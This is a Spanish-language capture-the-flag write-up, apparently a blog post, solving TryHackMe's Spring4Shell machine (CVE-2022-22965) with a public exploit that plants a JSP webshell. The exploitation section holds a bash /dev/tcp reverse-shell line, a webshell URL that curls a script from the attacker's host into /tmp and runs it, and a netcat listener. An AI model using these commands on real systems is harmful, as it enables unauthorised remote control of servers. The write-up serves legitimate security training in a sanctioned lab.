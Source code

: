 ```yaml
---
layout: single
author: Bast1ant1c
title: THM Spring4Shell
excerpt: "Vamos a resolver la maquina Spring4SHell de TryHackMe. ¡Let's hack!"
date: 2022-04-11
classes: wide
header:
  teaser: /assets/images/spring4shell/inicio.png
  teaser_home_page: true
categories:
  - TryHackMe
tags:
  - Writeup
  - Spring4shell
---
```


<p align="center">
<img src="/assets/images/spring4shell/inicio.png">
</p>

¡Hola!
En esta ocasión vamos a hablar de la maquina **Spring4shell**. 

[TryHackMe](https://tryhackme.com/) lanzó hace unas semanas esta máquina para aprender acerca de una de las vulnerabilidades más sonadas del momento.

El impacto de la vulnerabilidad asciende al nivel de que, [piratas informáticos](https://backtrackacademy.com/articulo) sacaron provecho de este acontecimiento para ejecutar el malware de botnet MIRAI en Singapur, descargando el programa malicioso en la carpeta `/tmp` y ejecutarlo, luego de un cambio de permisos bajo el comando `chmod`.

Vamos a ver un poco de la vulnerabilidad, limitaciones, explotación y remediaciones.

## VULNERABILIDAD

En marzo de 2022 se hace [pública](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965) la vulnerabilidad de **ejecución remota de comandos** en el marco de Java Spring, específicamente en `Spring Cloud Functions` y `Spring Core`, generando un gran impacto en el framework.

El mundo de **Spring Framework** presenta una vulnerabilidad de ejecución remota de comandos, a través de una _webshell_ la cual es posible luego de forzar a escribir un archivo de extensión `.jsp` en el servidor web.

El principal **riesgo** de el éxito en la explotación de esta vulnerabilidad se presenta en el potencial _escalamiento de privilegios_ para lograr un acceso total al servidor víctima y a la infraestructura de la organización afectada por el ataque.

## LIMITACIONES

Las condiciones para poder explotar la vulnerabilidad **Spring4shell** son las siguientes:

* JDK 9+.
* Spring Framework (<5.2 / 5.2.0-19 / 5.3.0-17).
* Apache Tomcat como servidor de Spring, empaquetado como WAR.
* Las dependencias spring-webmvc y/o spring-webflux como componentes del marco de Spring.
* Uso de hacktools.

## EXPLOTACIÓN

Para realizar la máquina, creamos un directorio y a su vez subdirectorios para organizar la información necesaria.

```zsh
❯ mkdir spring4shell
❯ cd !$
cd spring4shell
❯ mkdir nmap exploit
```

Realizamos un **reconocimiento** por medio de ping, identificando por el TTL (Time To Live) que la maquina es _Linux_.

```zsh
❯ ping -c 1 10.10.25.142
PING 10.10.25.142 (10.10.25.142) 56(84) bytes of data.
64 bytes from 10.10.25.142: icmp_seq=1 ttl=63 time=195 ms

--- 10.10.25.142 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 194.521/194.521/194.521/0.000 ms
```

Hacemos un **escaneo de puertos** para detectar cuales de estos están abiertos para identificar vulnerabilidades en los mismos.

```zsh
❯ sudo nmap -p- --open -sS --min-rate 5000 10.10.25.142 -n -Pn -oG inicial
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:28 -05
Nmap scan report for 10.10.25.142
Host is up (0.31s latency).
Not shown: 52759 filtered tcp ports (no-response), 12773 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Luego de identificar los puertos **22**, **80** y **8080**, se procede a detectar servicios y versiones activos.

```zsh
❯ sudo nmap -p22,80,8080 -sCV 10.10.25.142 -n -Pn -oG servicios
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:35 -05
Nmap scan report for 10.10.25.142
Host is up (0.27s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:92:70:6c:b6:df:1f:0b:45:ed:42:8d:b6:38:cc:67 (RSA)
|   256 18:af:36:34:c9:2e:a4:6f:7a:27:31:e8:ef:6c:84:fb (ECDSA)
|_  256 78:a6:1c:8a:16:5e:a6:29:29:a9:99:d0:66:9c:5e:06 (ED25519)
80/tcp   open  http    nginx 1.20.2
|_http-title: Vulnerable
|_http-server-header: nginx/1.20.2
8080/tcp open  http    nginx 1.20.2
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1260  03-Apr-2022 02:30  exploit.zip
|_
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.20.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el navegador accedemos a la IP bajo el puerto 8080 y procedemos a descargar el archivo **exploit.zip**.

<p align="center">
<img src="/assets/images/spring4shell/exploitzip.png">
</p>

Movemos el archivo a nuestra carpeta y procedemos a descomprimir el archivo con la utilidad `unzip`.

```zsh
❯ mv ~/Descargas/firefox/exploit.zip .
❯ unzip exploit.zip
Archive:  exploit.zip
[exploit.zip] exploit.py password: 
  inflating: exploit.py              
❯ ls
 exploit.py   exploit.zip
```

La información del script descargado se puede obtener ingresando al GitHub de [BobTheShoplifter](https://github.com/BobTheShoplifter/Spring4Shell-POC).

Procedemos a ver el funcionamiento del script.

```python
❯ python3 exploit.py
usage: exploit.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] url
exploit.py: error: the following arguments are required: url
```

Ahora ejecutamos el script con la URL victima (_FILENAME_, _PASSWORD_ y _DIRECTORY_ son opcionales).

```python
❯ python3 exploit.py http://10.10.25.142/
Shell Uploaded Successfully!
Your shell can be found at: http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=whoami
```

Como indica la salida del script, la webshell ha sido cargada en el servidor con éxito, por lo tanto, ya tenemos la **capacidad** de ejecutar comandos de manera remota.

<p align="center">
<img src="/assets/images/spring4shell/vulnerable.png">
</p>
<p align="center">
<img src="/assets/images/spring4shell/intrusion.png">
</p>

Ahora vamos a subir una **reverseshell** para ganar acceso a la maquina!

Crearemos un archivo `shell.sh`.

```zsh
nano shell.sh

#!/bin/bash
bash -i >& /dev/tcp/10.9.3.40/1234 0>&1
```

Luego de crear el archivo, vamos a cargar este al servidor vulnerable, por medio de un servidor local de python.

```zsh
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ejecutaremos en el navegador la siguiente **URL** para cargar nuestra shell en la carpeta `/tmp` de la víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=curl http://10.9.3.40:8000/shell.sh -o /tmp/shell.sh

<p align="center">
<img src="/assets/images/spring4shell/shell.png">
</p>

Nuestra shell se encuentra ahora en el servidor vulnerable!

Vamos a ponernos en escucha con la utilidad netcat, en esta ocasión bajo el puerto **1234**.

```zsh
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

Procedemos a ejecutar el archivo en el servidor víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=bash /tmp/shell.sh

<p align="center">
<img src="/assets/images/spring4shell/admin.png">
</p>

Como se puede ver en la imagen anterior, hemos logrado obtener una **shell** en la maquina! 

Ahora vamos a realizar un _tratamiento_ de la TTY, para lograr una mayor fluidez en la consola, para ello vamos a ejecutar los siguientes comandos iniciando en la maquina víctima.

```zsh
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
xterm
export XTERM=xterm
export SHELL=bash
```

Luego de que logramos una terminal fluida, vamos a buscar la **flag** y leerla!

En esta ocasión solo tenemos una **flag**.

Solo mostraré los primeros 10 dígitos de está.

```zsh
root@spring4shell:/# ls /root
flag.txt
root@spring4shell:/# head -c 10 /root/flag.txt ; echo
THM{NjAyNz
```

**¡Ya está!** 

<p align="center">
<img src="/assets/images/spring4shell/finish.png">
</p>


Por último, les recomiendo **actualizar** sus frameworks de Spring o generar controles pertinentes para que sus sistemas no sean vulnerables!

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
